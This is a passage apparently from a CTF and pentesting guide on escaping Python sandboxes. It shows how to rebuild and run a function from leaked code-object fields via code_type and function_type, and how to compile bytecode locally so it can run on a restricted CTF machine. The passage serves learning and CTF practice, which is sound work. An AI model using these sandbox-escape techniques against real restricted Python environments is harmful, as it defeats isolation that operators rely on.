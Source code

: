 ```python
code_type = type((lambda: None).__code__)
code_obj = code_type(co_argcount, co_kwonlyargcount,
               co_nlocals, co_stacksize, co_flags,
               co_code, co_consts, co_names,
               co_varnames, co_filename, co_name,
               co_firstlineno, co_lnotab, freevars=None, 
               cellvars=None)

# Execution
eval(code_obj) #Execute as a whole script

## If you have the code of a function, execute it
mydict = {}
mydict['__builtins__'] = __builtins__
function_type(code_obj, mydict, None, None, None)("secretcode")
```

### Recreating a leaked function

{% hint style="warning" %}
In the following example we are going to take all the data needed to recreate the function from the function code object directly. In a **real example**, all the **values** to execute the function **`code_type`** is what **you will need to leak**.
{% endhint %}

```python
fc = get_flag.__code__
# In a real situation the values like fc.co_argcount are the ones you need to leak
code_obj = code_type(fc.co_argcount, fc.co_kwonlyargcount, fc.co_nlocals, fc.co_stacksize, fc.co_flags, fc.co_code, fc.co_consts, fc.co_names, fc.co_varnames, fc.co_filename, fc.co_name, fc.co_firstlineno, fc.co_lnotab, cellvars=fc.co_cellvars, freevars=fc.co_freevars)

mydict = {}
mydict['__builtins__'] = __builtins__
function_type(code_obj, mydict, None, None, None)("secretcode")
#ThisIsTheFlag
```

### Bypass Defenses

In previous examples at the begging of this post you can see **how to execute any python code using the `compile` function**. This is really interesting because you can **execute whole scripts** with loops and everything in a **one liner** (and we could do the same using **`exec`**).\
Anyway, sometimes it could be useful to **create** a **compiled object** in a local machine and execute it in the **CTF machine** (for example because we don't have the `compiled` function in the CTF).

For example, let's compile and execute manually a function that reads _./poc.py_:

```python
#Locally
def read():
    return open("./poc.py",'r').read()

read.__code__.co_code
't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
```
